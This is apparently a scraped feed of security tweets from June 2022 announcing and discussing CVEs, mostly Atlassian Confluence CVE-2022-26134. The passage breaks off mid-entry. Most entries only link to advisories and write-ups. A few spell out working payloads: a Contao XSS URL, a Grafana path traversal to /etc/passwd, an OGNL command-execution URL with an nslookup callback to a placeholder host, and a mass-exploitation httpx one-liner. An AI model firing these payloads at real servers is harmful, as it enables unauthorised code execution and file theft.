

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1542440614637223936 _at 2022-06-30, 09:31:14_**
<blockquote>
In this post @mmolgtm goes through the details of CVE-2022-1134, a type confusion in Chrome, and shows how to gain remote code execution in the Chrome renderer using this bug. https://t.co/T4643hqF08
</blockquote>

* https://github.co/3Oys62x

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>189</code></td>
</tr></table>

---

# j00sean
**https://twitter.com/j00sean/status/1542212146313969665 _at 2022-06-29, 18:23:23_**
<blockquote>
1) CVE-2021-21042 to disclosure user32.dll's base addr.
2) CVE-2019-7040 to get RCE.

No sbx, so protected mode is off. To be released soon... https://t.co/b3DiUxcdZW
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1542136953004609536 _at 2022-06-29, 13:24:35_**
<blockquote>
Check out a recent finding by one of our own, Naveen Sunkavally. CVE-2022-28219 is an unauth RCE for ManageEngine ADAudit Plus. 

This XXE -&gt; Deserialization chain often leads to host compromise as well as priv'd AD creds. Check out the blog post and POC: https://t.co/bLHzhvSnLo
</blockquote>

* https://www.horizon3.ai/red-team-blog-cve-2022-28219

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>268</code></td>
<td>Favorites: <code>739</code></td>
</tr></table>

---

# scannell_simon
**https://twitter.com/scannell_simon/status/1541800107909185537 _at 2022-06-28, 15:06:05_**
<blockquote>
⚠️ Zimbra Mail pre-auth RCE via Path Traversal bug in unrar (CVE-2022-30333).  This is probably my most impactful bug so far, especially after Zimbra has been the target of a 0day campaign likely conducted by a state actor. More details in this blog post: https://t.co/8v0ujC1Nyl https://t.co/VZQm0NdqnU
</blockquote>

* https://blog.sonarsource.com/zimbra-pre-auth-rce-via-unrar-0day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>356</code></td>
<td>Favorites: <code>805</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1539999296405356546 _at 2022-06-23, 15:50:18_**
<blockquote>
[ZDI-22-871|CVE-2022-30157] Microsoft SharePoint Chart Deserialization of Untrusted Data Remote Code Execution Vulnerability (CVSS 8.8) https://t.co/rVlmeQCu9b
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-871/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1539788492695371778 _at 2022-06-23, 01:52:39_**
<blockquote>
💥 We have reproduced CVE-2022-31626, an RCE in PHP &lt;= 7.4.29 which can be triggered via a rogue MySQL/MariaDB server!

It's a Heap Overflow, works with MySQLi/PDO, and doesn't require LOAD LOCAL INFILE.

The PoC 👉 https://t.co/vrtniSEHhu https://t.co/ElJJgl5d9j
</blockquote>

* https://github.com/CFandR-github/PHP-binary-bugs/tree/main/cve_2022_31626_remote_exploit

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>422</code></td>
</tr></table>

---

# reverseame
**https://twitter.com/reverseame/status/1539166711072624642 _at 2022-06-21, 08:41:54_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability (Part 1) https://t.co/2tNZ3gmi81
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1537465412807442432 _at 2022-06-16, 16:01:33_**
<blockquote>
Volexity report detailing the exploitation of a Sophos firewall zero-day from earlier this year

Zero-day is tracked as CVE-2022-1040 and its exploitation was linked to "DriftingCloud," a new APT that appears to be based in China

https://t.co/NdMiOUsFkb https://t.co/U77hLLfadf
</blockquote>

* https://www.volexity.com/blog/2022/06/15/driftingcloud-zero-day-sophos-firewall-exploitation-and-an-insidious-breach/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# systemDumb
**https://twitter.com/systemDumb/status/1537427860209680384 _at 2022-06-16, 13:32:20_**
<blockquote>
Just scored 2 full-read SSRF bounties with this blog. Thank you @assetnote! Who do I send the beer to? 🍻

Turning bad SSRF to good SSRF: Websphere Portal (CVE-2021-27748) -   https://t.co/iIlMtE874p
</blockquote>

* https://blog.assetnote.io/2021/12/26/chained-ssrf-websphere/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1537421446946988036 _at 2022-06-16, 13:06:51_**
<blockquote>
🚒 Invision Community fixed an SSRF vulnerability (CVE-2021-40604) found by Mikhail Klyuchnikov!

Timeline:
✅ 06/23/2021 - The advisory is published
😒 06/24/2021 - Requested CVE via MITRE
😀 06/13/2022 - CVE was assigned

The PoC ⤵️

The "gkey" param is an unfollow token. https://t.co/jlvQwcm9QY
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1537404119127691267 _at 2022-06-16, 11:58:00_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability https://t.co/Olq8qu8zpR
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1537351630877696000 _at 2022-06-16, 08:29:26_**
<blockquote>
Researchers detail a recently reported high-severity #vulnerability (CVE-2022-25845) in the Fastjson library that could potentially be exploited for remote code execution attacks.

Read: https://t.co/b0Gvl4lUhQ

#infosec #sysadmin #DevOps #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/06/high-severity-rce-vulnerability.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>118</code></td>
</tr></table>

---

# 41thexplorer
**https://twitter.com/41thexplorer/status/1537209987570847744 _at 2022-06-15, 23:06:35_**
<blockquote>
OMI is back! @msftsecresponse published CVE-2022-29149, a new LPE vulnerability in OMI, the Azure agent that was vulnerable to #OMIGOD. Seems like manual update of the silently installed agent is required again in most cases 

https://t.co/Ga4hETg6i2
</blockquote>

* https://msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-29149

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>163</code></td>
</tr></table>

---

# Volexity
**https://twitter.com/Volexity/status/1537144102218870784 _at 2022-06-15, 18:44:47_**
<blockquote>
.@Volexity offers a case study on real-world #zeroday exploitation of a Sophos XG Firewall via CVE-2022-1040 by #DriftingCloud. Read about man-in-the-middle attacks, stolen session cookies, and how this APT moved beyond the firewall: https://t.co/3TthlXpXe8 #threatintel #dfir
</blockquote>

* https://www.volexity.com/blog/2022/06/15/driftingcloud-zero-day-sophos-firewall-exploitation-and-an-insidious-breach/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1536920233255968769 _at 2022-06-15, 03:55:12_**
<blockquote>
https://t.co/EZlw4Vr9dV The official patch for CVE-2022-30190 is released. Added regular filtering to the RunScript function, which means that this vulnerability turns into a game that tries to bypass https://t.co/WnFQaDB3Hv
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# scannell_simon
**https://twitter.com/scannell_simon/status/1536766828491456514 _at 2022-06-14, 17:45:38_**
<blockquote>
CVE-2022-27924 allows an unauthenticated, remote attacker to dump clear-text creds from a Zimbra instance with default config. We used Memcache response injection to bypass restrictions. Apparently Zimbra is used by over 200.000. Patch now! https://t.co/7ziBH7G4ax
</blockquote>

* https://blog.sonarsource.com/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1536735993889316864 _at 2022-06-14, 15:43:06_**
<blockquote>
CVE-2022-25845 – Analyzing the Fastjson “Auto Type Bypass” RCE vulnerability https://t.co/eZSzQB2xIc
</blockquote>

* https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---

# tamimhasan404
**https://twitter.com/tamimhasan404/status/1536572780325392384 _at 2022-06-14, 04:54:33_**
<blockquote>
I create a custom nuclei template for mass hunting recent CVE-2022-29455(XSS)
#bugbounty #nuclei https://t.co/uMC9ldy3CJ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>262</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1535890951226462208 _at 2022-06-12, 07:45:12_**
<blockquote>
CVE-2022-30075: Authenticated Remote Code Execution in Tp-Link Routers.

PoC
https://t.co/AGyD2CVWA8 https://t.co/qU87X48x39
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>189</code></td>
<td>Favorites: <code>495</code></td>
</tr></table>

---

# lukOlejnik
**https://twitter.com/lukOlejnik/status/1535643213712830466 _at 2022-06-11, 15:20:47_**
<blockquote>
Attempted cyberattack/operation aimed at Ukrainian media organizations (radio stations, newspapers, news agencies, etc.). Suspected Sandworm group trying to exploit CVE-2022-30190 (fresh, remote code execution vulnerability via Office/Word) https://t.co/UtHWUvnwCk https://t.co/yznXpfh7Ys
</blockquote>

* https://cert.gov.ua/article/160530

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1535620414268899329 _at 2022-06-11, 13:50:11_**
<blockquote>
Researcher releases PoC exploit for a new authenticated RCE #vulnerability (CVE-2022-30075) affecting Tp-Link routers.

https://t.co/MwaPmYk9HG

"If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable" https://t.co/GtXG37KzNf
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1535417776290111489 _at 2022-06-11, 00:24:59_**
<blockquote>
Multiple adversaries and nation-state actors, including DEV-0401 and DEV-0234, are taking advantage of the Atlassian Confluence RCE vulnerability CVE-2022-26134. We urge customers to upgrade to the latest version or apply recommended mitigations: https://t.co/C3CykQgrOJ
</blockquote>

* https://msft.it/6015b5npx

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---

# mr_r3bot
**https://twitter.com/mr_r3bot/status/1535286185358401536 _at 2022-06-10, 15:42:05_**
<blockquote>
I just wrote a technical analysis blog about Confluence CVE-2022-26134, especially focus on Confluence version 7.18.0 where isSafeExpression is introduced and different ways that you can bypass it :). If you have any questions, please dm me :)
https://t.co/AqWJ11qko5
</blockquote>

* https://mr-r3bot.github.io/research/2022/06/06/Confluence-Preauth-RCE-2022.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1534542758991511557 _at 2022-06-08, 14:27:58_**
<blockquote>
The latest blog from the Trend Micro Research Team looks at CVE-2022-26937: a Microsoft Windows NFS NLM Portmap stack buffer overflow that could lead to RCE. They provide root cause, source code walkthrough, and detection guidance. https://t.co/FhKhIeoG35
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/7/cve-2022-26937-microsoft-windows-network-file-system-nlm-portmap-stack-buffer-overflow

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1534349304688967680 _at 2022-06-08, 01:39:15_**
<blockquote>
CVE-2022-1588 Contao 4.13.2 Cross-Site Scripting (XSS)
URL: https://localhost/contao/"&gt;&lt;svg//onload=alert('momika233')&gt;
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1534060061869285377 _at 2022-06-07, 06:29:54_**
<blockquote>
"CVE-2022-30190 MSDT PowerShell Code Injection Vulnerability Analysis" https://t.co/ViRj51xWLf (Chinese) by HuanGMz@KnownSec  404 Team . The original model of the vulnerability is code injection caused by the lack of filtering $ in the .AddScript() function parameter. https://t.co/Cbz3VnMbKI
</blockquote>

* https://paper.seebug.org/1913/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1533941426320310272 _at 2022-06-06, 22:38:29_**
<blockquote>
800+ unique IPs and counting... read fresh insights from our research team on zero-day vulnerability Atlassian Confluence CVE-2022-26134. https://t.co/dvG31gk1xv
</blockquote>

* https://www.greynoise.io/blog/observed-in-the-wild-atlassian-confluence-server-cve-2022-26134

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1533927736888238090 _at 2022-06-06, 21:44:06_**
<blockquote>
Got a spot in Mozilla Hall of Fame (1st Quarter 2022) by reporting CVE-2022-26381 (Mozilla Firefox textPath Element Use-After-Free Remote Code Execution Vulnerability):
https://t.co/RKW4yefPVL
</blockquote>

* https://www.mozilla.org/en-US/security/bug-bounty/hall-of-fame/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---

# CVEnew
**https://twitter.com/CVEnew/status/1533897860583931905 _at 2022-06-06, 19:45:23_**
<blockquote>
CVE-2022-32275 Grafana 8.4.3 allows reading files via (for example) a /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd URI. https://t.co/1LMJnFOkbZ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32275

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>333</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1533886478291714049 _at 2022-06-06, 19:00:09_**
<blockquote>
Technical Analysis and Exploitation of CVE-2022-26134, critical unauthenticated RCE in Confluence, by @rapid7  

https://t.co/3xQzizl2ko

#infosec #cybersecurity #bugbounty #pentest https://t.co/Mi65pQKUaL
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1533805332409069568 _at 2022-06-06, 13:37:42_**
<blockquote>
🦥 Everyone learned to run pip install colorama to exploit Atlassian Confluence RCE (CVE-2022-26134), so let’s see how the vulnerability works under the hood.

Here we show our simplified payload which demonstrates a workflow inside the vulnerable code ⤵️ https://t.co/szijIM84hd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>284</code></td>
</tr></table>

---

# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1533765228072148994 _at 2022-06-06, 10:58:21_**
<blockquote>
/r/blueteamsec are now running one of our now (infamous?) threads on CVE-2022-26134 aka the Confluence Zero Day - with technical analysis, exploits, active exploitation updates, detections and more.. 

https://t.co/dHEkcymrkf
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/v56qin/cve202226134_confluence_zero_day_remote_code/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1533139425122713600 _at 2022-06-04, 17:31:37_**
<blockquote>
Widespread Atlassian Confluence CVE-2022-26134 exploitation, specifically that is *confirmed functional*, has just started. 23 unique IPs so far.

-Tags available to all @GreyNoiseIO users now
- Create an account to deploy a dynamic block list to block it

https://t.co/dbXTw2LWY6 https://t.co/xXldngWdPH
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22Atlassian%20Confluence%20Server%20CVE-2022-26134%20OGNL%20Injection%20Attempt%22

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1533051998077067267 _at 2022-06-04, 11:44:13_**
<blockquote>
Confluence RCE (CVE-2022-26134)
Poc:

{{BaseURL}}/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22nslookup%20{{interactsh-url}}%22%29%7D/
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1533025788672593920 _at 2022-06-04, 10:00:04_**
<blockquote>
CVE-2022-26134  Confluence RCE exploit automation :

httpx -l list.txt  -paths path.txt  -match-string "gid="
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>366</code></td>
</tr></table>

---

# sheikhrishad0
**https://twitter.com/sheikhrishad0/status/1532966090841915392 _at 2022-06-04, 06:02:51_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE PoC

#BugBounty https://t.co/7UFw7TkwME
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>397</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1532941237405499392 _at 2022-06-04, 04:24:06_**
<blockquote>
Atlassian Confluence (CVE-2022-26134) - Unauthenticated Remote Code Execution (RCE)
URL：https://t.co/OXIOSvXHL4
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>196</code></td>
</tr></table>

---

# httpvoid0x2f
**https://twitter.com/httpvoid0x2f/status/1532924231054499840 _at 2022-06-04, 03:16:31_**
<blockquote>
Thread - Confluence Blind OGNL Injection analysis from our limited java knowledge. From vulnerable sink to becoming admin of the confluence instance. #CVE-2022-26134. Tested on latest vulnerable version 7.18.0.
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>475</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1532887542722269184 _at 2022-06-04, 00:50:44_**
<blockquote>
Very simple POC for Atlassian Confluence Pre-Auth OGNL Injection &amp;&amp; RCE (CVE-2022-26134)
Setup a pre-built environment to test it in 5 seconds: https://t.co/oH6GJ1mel1
Why 5 minutes not 10 seconds? Because you should apply a trial license from Atlassian😂#vulhub https://t.co/CS1EVOHbKg
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>200</code></td>
<td>Favorites: <code>562</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1532844850298597376 _at 2022-06-03, 22:01:05_**
<blockquote>
⚠️ CVE-2022-26134 event detected ⚠️

Source IP:
193.106.191.48 (🇷🇺)

Target:
Atlassian Confluence servers vulnerable to unauthenticated remote code execution (https://t.co/mZ6pPfOBws)

Last seen:
2022-06-03T21:32:10Z
#threatintel
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# Naqwada_
**https://twitter.com/Naqwada_/status/1532840017894469632 _at 2022-06-03, 21:41:53_**
<blockquote>
CVE-2022-26134 - Script PoC that exploit the remote code execution vulnerability affecting Atlassian Confluence products 7.18.1 and under. This vulnerability is exploitable without requiring authentication!

#Confluence  #Atlassian #infosec #0day #PoC
https://t.co/HUylvXQ6i0
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1532823934156034048 _at 2022-06-03, 20:37:59_**
<blockquote>
🚨 Atlassian has released new Confluence Server and Data Center versions to address RCE vulnerability CVE-2022-26134. Update immediately! Read more at https://t.co/wxbzPoWfqi. #Cybersecurity #InfoSec https://t.co/frTQpH4Rax
</blockquote>

* http://go.usa.gov/xJWGw

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# naglinagli
**https://twitter.com/naglinagli/status/1532820345018785792 _at 2022-06-03, 20:23:43_**
<blockquote>
None-Intrusive @pdnuclei  template for the Confluence RCE vulnerability CVE-2022-26134 is available

https://t.co/BGJTz82dmu

Confirmation of hits by DNS callbacks with nslookup to interactsh servers. https://t.co/e42OaNI6mT
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/4527

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# naglinagli
**https://twitter.com/naglinagli/status/1532818278061641731 _at 2022-06-03, 20:15:30_**
<blockquote>
I wonder if releasing the Confluence RCE patch for CVE-2022-26134 within the weekend was a good idea 🤔 instead of 1 APT exploiting it in the wild now everyone got a working PoC and already mass exploit it 🤡

#BugBounty #infosec
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1532808712070512647 _at 2022-06-03, 19:37:29_**
<blockquote>
Our technical analysis and curl based PoC for Confluence CVE-2022-26134 can be found here: https://t.co/LUc4286Cj4
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>208</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1532802996362526720 _at 2022-06-03, 19:14:47_**
<blockquote>
It looks like CVE-2022-26134 (Unauthenticated RCE via OGNL template injection) uses the same vector as CVE-2021-26084.

Here is an attack via CVE-2021-26084 that I was checking on 2022-05-16 that allowed to create a webshell in ./confluence/testAnt.jsp

Just for comparison 🤔 https://t.co/mER1UCe5Ke
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532802468068962304 _at 2022-06-03, 19:12:41_**
<blockquote>
There is an RCE PoC for CVE-2022-26134 in this blog post. I haven't tested it yet.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1532800640371531777 _at 2022-06-03, 19:05:25_**
<blockquote>
The Rapid7 team has a root cause analysis of Confluence CVE-2022-26134 out now with thanks to @Junior_Baines. This is an emergency mitigation situation. https://t.co/2G9H6OmJA6
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>118</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# mkolsek
**https://twitter.com/mkolsek/status/1532704505577541637 _at 2022-06-03, 12:43:25_**
<blockquote>
This is real. We've confirmed it to work on fully patched Windows. The attack scenario is similar to CVE-2020-1300: get the user to open a CAB file, and a malicious executable is silently copied to their StartUp folder, to be launched the next time they login.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>219</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1532568914151976961 _at 2022-06-03, 03:44:37_**
<blockquote>
Researchers have uncovered a critical unpatched RCE #vulnerability (CVE-2022-26134) affecting #Atlassian Confluence Server and Data Center products that is being actively exploited by hackers.

Read details: https://t.co/DKvtuJIUr4

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/06/hackers-exploiting-unpatched-critical.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1532542109328150528 _at 2022-06-03, 01:58:06_**
<blockquote>
